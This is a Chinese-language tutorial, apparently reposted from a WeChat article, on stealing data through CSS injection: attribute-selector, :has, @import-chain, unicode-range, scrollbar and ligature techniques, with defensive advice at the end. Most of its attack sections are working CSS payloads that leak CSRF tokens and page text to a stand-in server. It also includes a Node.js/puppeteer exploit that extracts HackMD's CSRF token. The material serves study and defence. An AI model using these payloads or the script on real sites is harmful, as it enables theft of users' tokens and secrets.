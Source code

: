 # 用CSS来偷数据-CSS injection
**什么是 CSS injection？**  
CSS injection 代表的是你在一个页面上可以插入任何的 CSS 语法，或是讲得更明确一点，你可以使用 <style> 这个标签。你可能会好奇，为什么会有这种情况？  
常见的情况有两个，第一个是网站有过滤掉许多标签，但不觉得 <style> 有问题，所以没有过滤掉。例如说很多网站都会用现成的 library 来处理 sanitization，其中有一套很有名的叫做 DOMPurify  
在 DOMPurify (v2.4.0) 之中，预设就会帮你把各种危险的标签全都过滤掉，只留下一些安全的，例如说 <h1> 或是 <p> 这种，而重点是 <style> 也在预设的安全标签里面，所以如果你没有特别指定参数，在预设的情况下，<style> 是不会被过滤掉的，因此攻击者就可以注入 CSS。  
第二种情况则是虽然可以插入 HTML，但是由于 CSP（Content Security Policy）的缘故，没有办法执行 JavaScript。既然没办法执行 JavaScript，就只能退而求其次，看看有没有办法利用 CSS 做出一些恶意行为。  

## 利用 CSS 偷数据
CSS 确实是拿来装饰网页用的，但是只要结合两个特性，就可以使用 CSS 来偷数据。  
**第一个特性：属性选择器**  
在 CSS 当中，有几个选择器可以选到 “属性符合某个条件的元素”。举例来说，input[value^=a]，就可以选到 value 开头是 a 的元素。  
类似的选择器有:  
- input[value^=a] 开头是 a 的（prefix）
- input[value$=a] 结尾是 a 的（suffix）
- input[value*=a] 内容有 a 的（contains）

而第二个特性是：可以利用 CSS 发出 request，例如说载入一张服务器上的背景图片，本质上就是在发一个 request。  
假设现在页面上有一段内容是 <input name="secret" value="abc123">，而我能够插入任何的 CSS，我可以这样写：  
``` 
input[name="secret"][value^="a"] {
   background: url(https://myserver.com?q=a)
 }

 input[name="secret"][value^="b"] {
   background: url(https://myserver.com?q=b)
 }

 input[name="secret"][value^="c"] {
   background: url(https://myserver.com?q=c)
 }

 //....

 input[name="secret"][value^="z"] {
   background: url(https://myserver.com?q=z)
 }
```
因为第一条规则有顺利找到对应的元素，所以 input 的背景就会是一张服务器上的图片，而浏览器就会发 request 到 https://myserver.com?q=a。  
当在 server 收到这个 request 的时候，就知道 input 的 value 属性，第一个字符是 a，就顺利偷到了第一个字符  
这就是 CSS 之所以可以偷数据的原因，透过属性选择器加上载入图片这两个功能，就能够让 server 知道页面上某个元素的属性值是什么。  
接下来有两个问题：  
- 有什么东西好偷？
- 刚只示范偷第一个，要怎么偷第二个字符？

最常见的目标，就是 CSRF token。如果 CSRF token 被偷走，就有可能会被 CSRF 攻击,而这个 CSRF token，通常都会被放在一个 hidden input 中，像是这样：  
``` 
<form action="/action">
   <input type="hidden" name="csrf-token" value="abc123">
   <input name="username">
   <input type="submit">
 </form>
```
该怎么偷到里面的数据呢？  
**偷 hidden input**  
对于 hidden input 来说，照我们之前那样写是没有效果的：  
``` 
input[name="csrf-token"][value^="a"] {
   background: url(https://example.com?q=a)
 }
```
因为 input 的 type 是 hidden，所以这个元素不会显示在画面上，既然不会显示，那浏览器就没有必要载入背景图片，因此 server 不会收到任何 request。而这个限制非常严格，就算用 display:block !important; 也没办法盖过去  
没关系，还有别的选择器，像是这样：  
``` 
input[name="csrf-token"][value^="a"] + input {
   background: url(https://example.com?q=a)
 }
```
最后面多了一个 + input，这个加号是另外一个选择器，意思是 “选到后面的元素”，所以整个选择器合在一起，就是 “我要选 name 是 csrf-token，value 开头是 a 的 input，的后面那个 input”，也就是 <input name="username">  
真正载入背景图片的其实是别的元素，而别的元素并没有 type=hidden，所以图片会被正常载入。  
那如果后面没有其他元素怎么办？像是这样：  
``` 
<form action="/action">
   <input name="username">
   <input type="submit">
   <input type="hidden" name="csrf-token" value="abc123">
 </form>
```
以这个案例来说，在以前就真的玩完了，因为 CSS 并没有可以选到 “前面的元素” 的选择器，所以真的束手无策。  
但现在不一样了，因为我们有了 :has，这个选择器可以选到 “底下符合特殊条件的元素”，像这样：  
``` 
form:has(input[name="csrf-token"][value^="a"]){
   background: url(https://example.com?q=a)
 }
```
意思就是我要选到 “底下有（符合那个条件的 input）的 form”，所以最后载入背景的会是 form，一样也不是那个 hidden input。这个 has selector 很新，从上个月底释出的 Chrome 105 开始才正式支持，目前只剩下 Firefox 的稳定版还没支持了  

**偷 meta**  
除了把数据放在 hidden input 以外，也有些网站会把资料放在 <meta> 里面，例如说 <meta name="csrf-token" content="abc123">，meta 这个元素一样是看不见的元素，要怎么偷呢？  
has 是绝对偷得到的，可以这样偷：  
``` 
html:has(meta[name="csrf-token"][content^="a"]) {
   background: url(https://example.com?q=a);
 }
```
但除此之外，还有其他方式也偷得到。meta 虽然也看不到，但跟 hidden input 不同，我们可以自己用 CSS 让这个元素变成可见：  
``` 
 meta {
   display: block;
 }

 meta[name="csrf-token"][content^="a"] {
   background: url(https://example.com?q=a);
 }
```
这样还不够，你会发现 request 还是没有送出，这是因为 meta 在 head 底下，而 head 也有预设的 display:none 属性，因此也要帮 head 特别设置，才会让 meta “能被看到”：  
``` 
 head, meta {
   display: block;
 }

 meta[name="csrf-token"][content^="a"] {
   background: url(https://example.com?q=a);
 }
```
照上面这样写，就会看到浏览器发出 request。不过，画面上倒是没有显示任何东西，因为毕竟 content 是一个属性，而不是 HTML 的 text node，所以不会显示在画面上，但是 meta 这个元素本身其实是看得到的，这也是为什么 request 会发出去  
如果你真的想要在画面上显示 content 的话，其实也做得到，可以利用伪元素搭配 attr：  
``` 
meta:before {
     content: attr(content);
 }
```
就会看到 meta 里面的内容显示在画面上了  

**偷 HackMD 的数据**  
HackMD 的 CSRF token 放在两个地方，一个是 hidden input，另一个是 meta，内容如下：  
``` 
<meta name="csrf-token" content="h1AZ81qI-ns9b34FbasTXUq7a7_PPH8zy3RI">
```
HackMD 其实支持 <style> 的使用，这个标签不会被过滤掉，所以你是可以写任何的 style 的，而相关的 CSP 如下：  
``` 
img-src * data:;
 style-src 'self' 'unsafe-inline' https://assets-cdn.github.com https://github.githubassets.com https://assets.hackmd.io https://www.google.com 
 https://fonts.gstatic.com https://*.disquscdn.com;
 font-src 'self' data: https://public.slidesharecdn.com https://assets.hackmd.io https://*.disquscdn.com https://script.hotjar.com;
```
可以看到 unsafe-inline 是允许的，所以可以插入任何的 CSS。  
确认可以插入 CSS 以后，就可以开始来准备偷数据了。还记得前面有一个问题没有回答，那就是 “该怎麽偷第一个以后的字符？”，先以 HackMD 为例回答。  
CSRF token 这种东西通常重新整理就会换一个，所以不能重新整理，而 HackMD 刚好支持即时更新，只要内容变了，会立刻反映在其他 client 的画面上，因此可以做到 “不重新整理而更新 style”，流程是这样的：  
- 准备好偷第一个字符的 style，插入到 HackMD 里面面
- 受害者打开页面
- 服务器收到第一个字节的 request
- 从服务器更新 HackMD 内容，换成偷第二个字符的 payload
- 受害者页面即时更新，载入新的 style
- 服务器收到第二个字符的 request
- 不断循环直到偷完所有字符

代码如下：  
``` 
const puppeteer = require('puppeteer');
 const express = require('express')

 const sleep = ms => new Promise(resolve => setTimeout(resolve, ms));

 // Create a hackMD document and let anyone can view/edit
 const noteUrl = 'https://hackmd.io/1awd-Hg82fekACbL_ode3aasf'
 const host = 'http://localhost:3000'
 const baseUrl = host + '/extract?q='
 const port = process.env.PORT || 3000

 ;(async function() {
   const app = express()
   const browser = await puppeteer.launch({
     headless: true
   });
   const page = await browser.newPage();
   await page.setViewport({ width: 1280, height: 800 })
   await page.setRequestInterception(true);

   page.on('request', request => {
     const url = request.url()
     // cancel request to self
     if (url.includes(baseUrl)) {
       request.abort()
     } else {
       request.continue()
     }
   });
   app.listen(port, () => {
     console.log(`Listening at http://localhost:${port}`)
     console.log('Waiting for server to get ready...')
     startExploit(app, page)
   })
 })()

 async function startExploit(app, page) {
   let currentToken = ''
   await page.goto(noteUrl + '?edit');

   // @see: https://stackoverflow.com/questions/51857070/puppeteer-in-nodejs-reports-error-node-is-either-not-visible-or-not-an-htmlele
   await page.addStyleTag({ content: "{scroll-behavior: auto !important;}" });
   const initialPayload = generateCss()
   await updateCssPayload(page, initialPayload)
   console.log(`Server is ready, you can open ${noteUrl}?view on the browser`)

   app.get('/extract', (req, res) => {
     const query = req.query.q
     if (!query) return res.end()

     console.log(`query: ${query}, progress: ${query.length}/36`)
     currentToken = query
     if (query.length === 36) {
       console.log('over')
       return
     }
     const payload = generateCss(currentToken)
     updateCssPayload(page, payload)
     res.end()

   })
 }

 async function updateCssPayload(page, payload) {
   await sleep(300)
   await page.click('.CodeMirror-line')
   await page.keyboard.down('Meta');
   await page.keyboard.press('A');
   await page.keyboard.up('Meta');
   await page.keyboard.press('Backspace');
   await sleep(300)
   await page.keyboard.sendCharacter(payload)
   console.log('Updated css payload, waiting for next request')
 }

 function generateCss(prefix = "") {
   const csrfTokenChars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ-_'.split('')
   return `
 ${prefix}
 <style>
     head, meta {
         display: block;
     }
     ${
       csrfTokenChars.map(char => `
         meta[name="csrf-token"][content^="${prefix + char}"] {
             background: url(${baseUrl}${prefix + char})
         }
       `).join('\n')
     }
 </style>
   `
 }       
```
可以直接用 Node.js 跑起来，跑起来以后在浏览器打开相对应的文件，就可以在 terminal 看到 leak 的进度。  
不过呢，就算偷到了 HackMD 的 CSRF token，依然还是没办法 CSRF，因为 HackMD 有在 server 检查其他的 HTTP request header 如 origin 或是 referer 等等，确保 request 来自合法的地方。  

**偷到所有字符**  
想偷的数据有可能只要重新整理以后就会改变（如 CSRF token），所以必须在不重新整理的情况之下加载新的 style。  
一般的网页怎样在不能用 JavaScript 的情况下，不断动态载入新的 style？  
在 CSS 里面，你可以用 @import 去把外部的其他 style 引入进来，就像 JavaScript 的 import 那样。  
可以利用这个功能做出引入 style 的回圈，如下面的代码：  
``` 
@import url(https://myserver.com/start?len=8)
```
在 server 回传如下的 style：  
``` 
@import url(https://myserver.com/payload?len=1)
 @import url(https://myserver.com/payload?len=2)
 @import url(https://myserver.com/payload?len=3)
 @import url(https://myserver.com/payload?len=4)
 @import url(https://myserver.com/payload?len=5)
 @import url(https://myserver.com/payload?len=6)
 @import url(https://myserver.com/payload?len=7)
 @import url(https://myserver.com/payload?len=8)
```
这边虽然一次引入了 8 个，但是 “后面 7 个 request，server 都会先 hang 住，不会给 response”，只有第一个网址 https://myserver.com/payload?len=1 会回传 response，内容为之前提过的偷资料 payload：  
``` 
input[name="secret"][value^="a"] {
   background: url(https://b.myserver.com/leak?q=a)
 }

 input[name="secret"][value^="b"] {
   background: url(https://b.myserver.com/leak?q=b)
 }

 input[name="secret"][value^="c"] {
   background: url(https://b.myserver.com/leak?q=c)
 }

 //....

 input[name="secret"][value^="z"] {
   background: url(https://b.myserver.com/leak?q=z)
 }
```
浏览器收到 response 的时候，就会先载入上面这一段 CSS，载入完以后符合条件的元素就会发 request 到后端，假设第一个字是 d 好了，接著 server 这时候才回传 https://myserver.com/payload?len=2 的 response，内容为：  
``` 
input[name="secret"][value^="da"] {
   background: url(https://b.myserver.com/leak?q=da)
 }

 input[name="secret"][value^="db"] {
   background: url(https://b.myserver.com/leak?q=db)
 }

 input[name="secret"][value^="dc"] {
   background: url(https://b.myserver.com/leak?q=dc)
 }

 //....

 input[name="secret"][value^="dz"] {
   background: url(https://b.myserver.com/leak?q=dz)
 }
```
只要不断重复这些步骤，就可以把所有字符都传到 server 去，靠的就是 import 会先载入已经下载好的 resource，然后去等待还没下载好的特性  
这边有一点要特别注意，载入 style 的 domain 是 myserver.com，而背景图片的 domain 是 b.myserver.com，这是因为浏览器通常对于一个 domain 能同时载入的 request 有数量上的限制，所以如果你全部都是用 myserver.com 的话，会发现背景图片的 request 送不出去，都被 CSS import 给卡住了。因此需要设置两个 domain，来避免这种状况。  
上面这种方式在 Firefox 是行不通的，因为在 Firefox 上就算第一个的 response 先回来，也不会立刻更新 style，要等所有 request 都回来才会一起更新。
可以把第一步的 import 拿掉，然后每一个字符的 import 都用额外的 style 包着  
``` 
<style>@import url(https://myserver.com/payload?len=1)</style>
 <style>@import url(https://myserver.com/payload?len=2)</style>
 <style>@import url(https://myserver.com/payload?len=3)</style>
 <style>@import url(https://myserver.com/payload?len=4)</style>
 <style>@import url(https://myserver.com/payload?len=5)</style>
 <style>@import url(https://myserver.com/payload?len=6)</style>
 <style>@import url(https://myserver.com/payload?len=7)</style>
 <style>@import url(https://myserver.com/payload?len=8)</style>
```
而上面这样 Chrome 也是没问题的，所以统一改成上面这样，就可以同时支持两种浏览器了。  

**一次偷一个字符，太慢了吧？**  
以 HackMD 为例，CSRF token 总共有 36 个字，所以就要发 36 个 request，确实是太多了点。  
事实上一次可以偷两个字符，可以像这样：  
``` 
input[name="secret"][value^="a"] {
   background: url(https://b.myserver.com/leak?q=a)
 }

 input[name="secret"][value^="b"] {
   background: url(https://b.myserver.com/leak?q=b)
 }

 // ...
 input[name="secret"][value$="a"] {
   border-background: url(https://b.myserver2.com/suffix?q=a)
 }

 input[name="secret"][value$="b"] {
   border-background: url(https://b.myserver2.com/suffix?q=b)
 }
```
除了偷开头以外，也偷结尾，效率立刻变成两倍。要特别注意的是开头跟结尾的 CSS，一个用的是 background，另一个用的是 border-background，是不同的属性，因为如果用同一个属性的话，内容就会被其他的盖掉，最后只会发出一个 request。  
若是内容可能出现的字符不多，例如说 16 个的话，那我们可以直接一次偷两个开头加上两个结尾，总共的 CSS rule 数量为 16*16*2 = 512 个，应该还在可以接受的范围内，就能够再加速两倍。  
除此之外，也可以朝 server 那边去改善，例如说改用 HTTP/2 或甚至是 HTTP/3，都有机会能够加速 request 载入的速度，进而提升效率。  

**偷其他东西**  
除了偷属性之外，有没有办法偷到其他东西？例如说，页面上的其他文字？或甚至是 script 里面的代码？  
_unicode-range_  
有一个属性叫做 unicode-range，可以针对不同的字符，载入不同的字体。像是底下这个从 MDN 拿来的范例：  
``` 
<!DOCTYPE html>
 <html>
   <body>
     <style>
       @font-face {
         font-family: "Ampersand";
         src: local("Times New Roman");
         unicode-range: U+26;
       }

       div {
         font-size: 4em;
         font-family: Ampersand, Helvetica, sans-serif;
       }
     </style>
     <div>Me & You = Us</div>
   </body>
 </html>
```
& 的 unicode 是 U+0026，因此只有 & 这个字会用不同的字体来显示，其他都用同一个字体。  
英文跟中文如果要用不同字体来显示，就很适合用这一招。而这招也可以用来偷取页面上的文字，像这样：  
``` 
<!DOCTYPE html>
 <html>
   <body>
     <style>
       @font-face {
         font-family: "f1";
         src: url(https://myserver.com?q=1);
         unicode-range: U+31;
       }

       @font-face {
         font-family: "f2";
         src: url(https://myserver.com?q=2);
         unicode-range: U+32;
       }

       @font-face {
         font-family: "f3";
         src: url(https://myserver.com?q=3);
         unicode-range: U+33;
       }

       @font-face {
         font-family: "fa";
         src: url(https://myserver.com?q=a);
         unicode-range: U+61;
       }

       @font-face {
         font-family: "fb";
         src: url(https://myserver.com?q=b);
         unicode-range: U+62;
       }

       @font-face {
         font-family: "fc";
         src: url(https://myserver.com?q=c);
         unicode-range: U+63;
       }

       div {
         font-size: 4em;
         font-family: f1, f2, f3, fa, fb, fc;
       }
     </style>
     Secret: <div>ca31a</div>
   </body>
 </html>
```
一共发送了 4 个 request,藉由这招，可以得知页面上有：13ac 这四个字符。  
这招的局限之处也很明显，就是：  
- 我们不知道字符的顺序为何
- 重复的字符也不会知道

**字体高度差异 + first-line + scrollbar**  
这招要解决的主要是上一招碰到的问题：“没办法知道字元顺序”  
首先，我们其实可以不载入外部字体，用内置的字体就能 leak 出字符。这要怎么做到呢？我们要先找出两组内置字体，高度会不同。  
例如有一个叫做 “Comic Sans MS” 的字体，高度就比另一个 “Courier New” 高。  
假设预设字体的高度是 30px，而 Comic Sans MS 是 45px 好了。那现在我们把文字区块的高度设成 40px，并且载入字体，像这样：  
``` 
<!DOCTYPE html>
 <html>
   <body>
     <style>
       @font-face {
         font-family: "fa";
         src:local('Comic Sans MS');
         font-style:monospace;
         unicode-range: U+41;
       }
       div {
         font-size: 30px;
         height: 40px;
         width: 100px;
         font-family: fa, "Courier New";
         letter-spacing: 0px;
         word-break: break-all;
         overflow-y: auto;
         overflow-x: hidden;
       }

     </style>
     Secret: <div>DBC</div>
     <div>ABC</div>
   </body>
 </html>
```
A 比其他字符的高度都高，而且根据我们的 CSS 设定，如果内容高度超过容器高度，会出现 scrollbar。虽然上面是截图看不出来，但是下面的 ABC 有出现 scrollbar，而上面的 DBC 没有。  
其实可以帮 scrollbar 设定一个外部的背景：  
``` 
div::-webkit-scrollbar {
     background: blue;
 }

 div::-webkit-scrollbar:vertical {
     background: url(https://myserver.com?q=a);
 }
```
如果 scrollbar 有出现，我们的 server 就会收到 request。如果 scrollbar 没出现，就不会收到 request。  
更进一步来说，当我把 div 套用 “fa” 字体时，如果画面上有 A，就会出现 scrollbar，server 就会收到 request。如果画面上没有 A，就什么事情都不会发生。  
如果一直重复载入不同字体，那我在 server 就能知道画面上有什么字符，这点跟刚刚我们用 unicode-range 能做到的事情是一样的。  
那要怎么解决顺序的问题呢？  
可以先把 div 的宽度缩减到只能显示一个字符，这样其他字符就会被放到第二行去，再搭配 ::first-line 这个 selector，就可以特别针对第一行做样式的调整，像是这样：  
``` 
<!DOCTYPE html>
 <html>
   <body>
     <style>
       @font-face {
         font-family: "fa";
         src:local('Comic Sans MS');
         font-style:monospace;
         unicode-range: U+41;
       }
       div {
         font-size: 0px;
         height: 40px;
         width: 20px;
         font-family: fa, "Courier New";
         letter-spacing: 0px;
         word-break: break-all;
         overflow-y: auto;
         overflow-x: hidden;
       }

       div::first-line{
         font-size: 30px;
       }

     </style>
     Secret: <div>CBAD</div>
   </body>
```
页面上你就只会看到一个 “C” 的字符，因为我们先用 font-size: 0px 把所有字符的尺寸都设为 0，再用 div::first-line 去做调整，让第一行的 font-size 变成 30px。换句话说，只有第一行的字元能看到，而现在的 div 宽度只有 20px，所以只会出现第一个字符。  
再运用刚刚学会的那招，去载入看看不同的字体。当我载入 fa 这个字体时，因为画面上没有出现 A，所以不会有任何变化。但是当我载入 fc 这个字体时，画面上有 C，所以就会用 Comic Sans MS 来显示 C，高度就会变高，scrollbar 就会出现，就可以利用它来发出 request，像这样：  
``` 
div {
   font-size: 0px;
   height: 40px;
   width: 20px;
   font-family: fc, "Courier New";
   letter-spacing: 0px;
   word-break: break-all;
   overflow-y: auto;
   overflow-x: hidden;
   --leak: url(http://myserver.com?C);
 }

 div::first-line{
   font-size: 30px;
 }

 div::-webkit-scrollbar {
   background: blue;
 }

 div::-webkit-scrollbar:vertical {
   background: var(--leak);
 }
```
怎么样不断使用新的 font-family 呢？用 CSS animation 就可以做到，你可以用 CSS animation 不断载入不同的 font-family 以及指定不同的 –leak 变量。  
知道了第一个字符以后，把 div 的宽度变长，例如说变成 40px，就能容纳两个字符，因此第一行就会是前两个字，接着再用一样的方式载入不同的 font-family，就能 leak 出第二个字符，详细流程如下：  
- 假设页面上是 ACB
- 调整宽度为 20px，第一行只出现第一个字符 A
- 载入字体 fa，因此 A 用较高的字体显示，出现 scrollbar，载入 scrollbar 背景，传送 request 给 server
- 载入字体 fb，但是 B 没有出现在画面上，因此没有任何变化。
- 载入字体 fc，但是 C 没有出现在画面上，因此没有任何变化。
- 调整宽度为 40px，第一行出现两个字符 AC
- 载入字体 fa，因此 A 用较高的字体显示，出现 scrollbar，此时应该是因为这个背景已经载入过，所以不会发送新的 request
- 载入字体 fb，没出现在画面上，没任何变化
- 载入字体 fc，C 用较高的字体显示，出现 scrollbar 并且载入背景
- 调整宽度为 60px，ACB 三个字元都出现在第一行
- 载入字体 fa，同第七步
- 载入字体 fb，B 用较高的字体显示，出现 scrollbar 并且载入背景
- 载入字体 fc，C 用较高的字体显示，但因为已经载入过相同背景，不会发送 request
- 结束

从上面流程中可以看出 server 会依序收到 A, C, B 三个 reqeust，代表了画面上字符的顺序。而不断改变宽度以及 font-family 都可以用 CSS animation 做到。  
这个解法虽然解决了 “不知道字元顺序” 的问题，但依然无法解决重复字符的问题，因为重复的字符不会再发出 request。  

**ligature + scrollbar**  
这一招可以解决上面所有问题，达成 “知道字符顺序，也知道重复字符” 的目标，能够偷到完整的文字。  
要理解怎么偷之前，要先知道一个专有名词，叫做连字（ligature），在某些字型当中，会把一些特定的组合 render 成连在一起的样子  
那这个对我们有什么帮助呢？  
可以自己制作出一个独特的字体，把 ab 设定成连字，并且 render 出一个超宽的元素。接着，我们把某个 div 宽度设成固定，然后结合刚刚 scrollbar 那招，也就是：“如果 ab 有出现，就会变很宽，scrollbar 就会出现，就可以载入 request 告诉 server；如果没出现，那 scrollbar 就不会出现，没有任何事情发生”。  
假设页面上有 acc 这三个字：  
- 载入有连字 aa 的字体，没事发生
- 载入有连字 ab 的字体，没事发生
- 载入有连字 ac 的字体，成功 render 超宽的画面，scrollbar 出现，载入 server 图片
- server 知道页面上有 ac
- 载入有连字 aca 的字体，没事发生
- 载入有连字 acb 的字体，没事发生
- 载入有连字 acc 的字体，成功 render，scrollbar 出现，传送结果给 server
- server 知道页面上有 acc
- 透过连字结合 scrollbar，我们可以一个字符一个字符，慢慢 leak 出页面上所有的字，甚至连 JavaScript 的代码都可以！

``` 
head, script {
   display: block;
 }
```
只要加上这个 CSS，就可以让 script 内容也显示在画面上，因此我们也可以利用同样的技巧，偷到 script 的内容！  
在实战上的话，你可以用 SVG 搭配其他工具，在 server 端迅速产生字体.简易版 demo：  
``` 
 <!DOCTYPE html>
 <html lang="en">
 <body>
   <script>
     var secret = "abc123"
   </script>
   <hr>
   <script>
     var secret2 = "cba321"
   </script>
   <svg>
     <defs>
     <font horiz-adv-x="0">
       <font-face font-family="hack" units-per-em="1000" />
         <glyph unicode='"a' horiz-adv-x="99999" d="M1 0z"/>
       </font>
     </defs>
   </svg>
   <style>
     script {
       display: block;
       font-family:"hack";
       white-space:n owrap;
       overflow-x: auto;
       width: 500px;
       background:lightblue;
     }

     script::-webkit-scrollbar {
       background: blue;
     }

   </style>
 </body>
 </html>
```
用 script 放了两段 JS，里面内容分别是 var secret = "abc123" 跟 var secret2 = "cba321"，接着利用 CSS 载入我准备好的字体，只要有 "a 的连字，就会宽度超宽。  
因为内容是 var secret = "abc123"，所以符合了 "a 的连字，因此宽度变宽，scrollbar 出现。  
下面因为没有 a，所以 scrollbar 没出现（有 a 的地方都会缺字，应该跟我没有定义其他的 glyph 有关，但不影响结果）  
只要把 scrollbar 的背景换成 URL，就可以从 server 端知道 leak 的结果。  

**防御方式**  
最简单明了的当然就是直接把 style 封起来不给用，基本上就不会有 CSS injection 的问题  
如果真的要开放 style，也可以用 CSP 来阻挡一些资源的载入，例如说 font-src 就没有必要全开，style-src 也可以设置 allow list，就能够挡住 @import 这个语法。  
再来，也可以考虑到 “如果页面上的东西被拿走，会发生什么事情”，例如说 CSRF token 被拿走，最坏就是 CSRF，此时就可以实作更多的防护去阻挡 CSRF，就算攻击者取得了 CSRF token，也没办法 CSRF（例如说多检查 origin header 之类的）。  


原文:  
[用 CSS 来偷数据 - CSS injection（上）](https://mp.weixin.qq.com/s/CxPqLt_GYmfKwXC38YsKMQ)
[用 CSS 来偷数据 - CSS injection（下）](https://mp.weixin.qq.com/s/mLhufG2ebZCJstaQ0a5EmQ)

